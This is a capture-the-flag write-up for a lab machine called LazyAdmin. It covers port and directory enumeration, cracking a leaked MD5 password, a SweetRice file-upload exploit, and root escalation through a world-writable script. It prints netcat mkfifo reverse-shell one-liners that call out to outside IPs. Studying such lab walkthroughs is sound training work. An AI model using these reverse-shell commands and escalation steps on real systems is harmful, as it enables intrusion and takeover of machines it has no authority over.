 ```yaml
---
tags: [Rooms]
title: LazyAdmin
created: '2020-05-22T22:46:02.478Z'
modified: '2020-05-29T22:54:48.819Z'
---
```


# LazyAdmin

Nmap scan of the machine:

```
nmap -sV -sC -Pn -p- 10.10.79.249 -v
```

Port 80 is open and contains a web application. The root path contains an Apache 2 default page.

We can perform a directory/file enumeration with **gobuster**:

```
gobuster dir -u http://10.10.79.249 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -e
```

We discover that there is a **/content** directory. This page discloses the use of SweetRice.

We can perform a directory/file enumeration with **gobuster** of the /content directory with .php file extensions:

```
gobuster dir -u http://10.10.79.249 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -e -x php
```

We discover that there is a **/content/inc** directory. This folder contains a **latest.txt** file that discloses the SweetRice version in use. It's version 1.5.1.
We also discover a folder called **mysql_backup** with a backup .sql file.
After opening this file, we obtain the credentials to login into the SweetRice application. The password is hahed as an MD5. We proceed to use john to obtain the clear text password:

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 sweetrice_hash.txt
```

We have the following credentials: `manager:Password123`

`NOTE: SweetRice version 1.5.1 was also vulnerable to Backup Disclosure which allowed access to the same mysql_backup folder`

This version of SweetRice is vulnerable to an Authenticated Arbitrary File Upload.

[SweetRice - Authenticated Remote File Upload](https://www.exploit-db.com/exploits/40716)

Using it, we can proceed to upload a simple PHP reverse shell.
The host is **10.10.79.249/content**, the username and password is the ones obtained before and the shell has to be renamed to **shell.php5**.

Once we have popped a shell, we can find the user.txt file at **/home/itguy**.

After executing `sudo -l` we get that there is a Perl script that can be executed as root with no password:

```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

The **backup.pl** script executes another script called **/etc/copy.sh**.

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

The **copy.sh** script executes a reverse shell against a predetermined IP.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

The file **backup.pl** can only be written by root. However, the file **copy.sh** can be written by everyone.

We just need to change the reverse shell IP and port to our host machine netcat listener:

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.5.129 1337 >/tmp/f" > /etc/copy.sh`

And then execute the Perl as root:

`sudo /usr/bin/perl /home/itguy/backup.pl`

Once we have popped a shell as root, we can find the root.txt file at **/root/root.txt**.
